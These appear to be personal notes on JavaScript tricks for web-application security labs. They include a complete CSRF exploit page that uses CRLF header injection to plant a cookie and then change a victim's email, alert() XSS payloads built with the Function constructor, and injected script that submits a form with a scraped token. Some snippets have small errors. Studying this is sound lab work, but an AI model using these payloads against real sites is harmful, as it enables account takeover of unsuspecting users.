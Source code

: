 ## Javascript `.replace()` function

When a string value is supplied into the first argument of the .replace function, only the first instance is replaced. For all instances to be replaced, a regex expression should be used instead. 

## Cross Origin Fetch

<html>

<body>
   <form action="https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email"
        method="POST">
        <input type="hidden" name="email" value="pwned@devil-user.net" />
        <input required type=hidden name=csrf value=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59>
    </form>
    <script>
        fetch("https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/?search=t%3b%0d%0aSet-Cookie%3a%20csrfKey%3dxgOkcu96eiZT19WRsMmvwQwLrTposCsA%3b%20SameSite%3dNone", {
            mode:"no-cors",
            credentials: "include"
        }).then(function(response) {
            fetch('https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email', {
                method: 'POST',
                mode:"no-cors",
                credentials: "include",
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: 'email=pwned%40evil-user.net&csrf=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59'
            }).then(function(response) {
                console.log(response);
            });
        });
    </script>
</body>

</html>
To allow Fetch to perform cross origin requests while still including cookies in the request, you must specify `ceredentials: 'include'`. For instance, 

```js
fetch('https://example.com:1234/users', {
  credentials: 'include'
})
```

This is necessary to perform attacks like CSRF where it requires your attacker site to perform cross-origin requests using the victim's cookies. This also applies to fetch requests used to set cookies on a different origin. 

## Constructor Class

Each function object has a constructor object that created the function. The constructor of the constructor object hence has the ability to create functions. For example, 

```js
const foo = Function('alert(1)'); // creates a function foo that executes alert(1)
const bar = func.constructor.constructor('alert(2)'); // references the constructor.constructor function to create another function bar
```


## Inspector vs Source

In most cases, viewing source directly through Burp Repeater or `Ctrl+u` is more reliable as you're able to see the unprocessed HTML. This is makes it easier to distinguished whether you have escaped whatever context. Using inspector would show the processed output after the browser tries to correct intentionally wrong HTML syntax. 

However, when it comes to DOM-based XSS which uses javascript to populate the DOM `onload`, viewing source would not allow you to see the changes made by javascript. In this scenario, inspector is more suitable. 

## Waiting for DOM to load

After obtaining XSS via script injection, you might have to wait till the DOM loads to access elements within the DOM. To do so, you might have to use an event listener such as the following. 

```js
<script>
document.addEventListener("DOMContentLoaded", function() { 
	const formData ={ 
		'csrf': document.querySelector('input[name="csrf"]').value,
		'email': 'email@email.com'
	};
	fetch('/my-account/change-email', {
		method:'POST', 
		body: formData,
	});
});
</script>
```

## Eval with backticks

Backticks in JS represent template strings. If there is an input is reflected in a template string, you can execute javascript with `${<js expression>}`. Template literals have normal strings along with placeholders (embedded expressions). 
